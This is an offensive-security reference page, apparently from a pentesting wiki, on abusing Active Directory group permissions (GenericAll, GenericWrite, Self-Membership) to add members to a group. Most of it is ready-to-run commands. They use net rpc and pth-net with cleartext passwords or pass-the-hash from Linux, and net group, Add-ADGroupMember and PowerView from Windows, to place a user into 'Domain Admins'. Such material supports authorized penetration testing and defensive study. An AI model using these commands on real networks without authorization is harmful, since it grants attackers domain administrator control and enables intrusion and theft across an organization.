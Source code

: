 # AddMember

This abuse can be carried out when controlling an object that has a `GenericAll`, `GenericWrite`, `Self`, `AllExtendedRights` or `Self-Membership`, over the target group.

{% tabs %}
{% tab title="UNIX-like" %}
It can also be achieved from UNIX-like system with [net](https://linux.die.net/man/8/net), a tool for the administration of samba and cifs/smb clients. The [pth-toolkit](https://github.com/byt3bl33d3r/pth-toolkit) can also be used to run net commands with [pass-the-hash](../ntlm/pth.md).

```bash
# With net and cleartext credentials (will be prompted)
net rpc group addmem $TargetGroup $TargetUser -U $DOMAIN/$ControlledUser -S $DomainController

# With net and cleartext credentials
net rpc group addmem $TargetGroup $TargetUser -U $DOMAIN/$ControlledUser%$Password -S $DomainController

# With Pass-the-Hash
pth-net rpc group addmem $TargetGroup $TargetUser -U $DOMAIN/$ControlledUser%ffffffffffffffffffffffffffffffff:$NThash -S $DomainController
```
{% endtab %}

{% tab title="Windows" %}
The attacker can add a user/group/computer to a group. This can be achieved with a native command line, with the Active Directory PowerShell module, or with [Add-DomainGroupMember](https://powersploit.readthedocs.io/en/latest/Recon/Add-DomainGroupMember/) ([PowerView](https://github.com/PowerShellMafia/PowerSploit/blob/dev/Recon/PowerView.ps1) module).

```bash
# Command line
net group 'Domain Admins' 'user' /add /domain

# Powershell: Active Directory module
Add-ADGroupMember -Identity 'Domain Admins' -Members 'user'

# Powershell: PowerSploit module
Add-DomainGroupMember -Identity 'Domain Admins' -Members 'user'
```
{% endtab %}
{% endtabs %}
